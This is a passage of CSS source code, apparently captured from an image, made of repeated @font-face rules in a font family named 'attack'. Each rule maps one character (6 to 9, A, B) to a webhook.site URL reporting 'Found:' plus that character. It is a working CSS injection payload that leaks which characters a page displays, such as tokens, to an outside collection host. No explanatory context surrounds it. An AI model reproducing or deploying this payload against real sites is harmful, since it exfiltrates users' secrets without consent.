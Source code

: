 }

@font-face{

           font-family:attack;

           src:url('http://webhook.site/#!/view/fed0257a-cac9-4699-83fa-81ed415342de/f8463f75-6a9f-4f28-b3a2-68395e8e78be//?Found:6');

           unicode-range:U+0036;

}

@font-face{

           font-family:attack;

           src:url('http://webhook.site/#!/view/fed0257a-cac9-4699-83fa-81ed415342de/f8463f75-6a9f-4f28-b3a2-68395e8e78be//?Found:7');

           unicode-range:U+0037;

}

@font-face{

           font-family:attack;

           src:url('http://webhook.site/#!/view/fed0257a-cac9-4699-83fa-81ed415342de/f8463f75-6a9f-4f28-b3a2-68395e8e78be//?Found:8');

           unicode-range:U+0038;

}

@font-face{

           font-family:attack;

           src:url('http://webhook.site/#!/view/fed0257a-cac9-4699-83fa-81ed415342de/f8463f75-6a9f-4f28-b3a2-68395e8e78be//?Found:9');

           unicode-range:U+0039;

}

@font-face{

           font-family:attack;

           src:url('http://webhook.site/#!/view/fed0257a-cac9-4699-83fa-81ed415342de/f8463f75-6a9f-4f28-b3a2-68395e8e78be//?Found:A');

           unicode-range:U+0041;

}

@font-face{

           font-family:attack;

           src:url('http://webhook.site/#!/view/fed0257a-cac9-4699-83fa-81ed415342de/f8463f75-6a9f-4f28-b3a2-68395e8e78be//?Found:B');

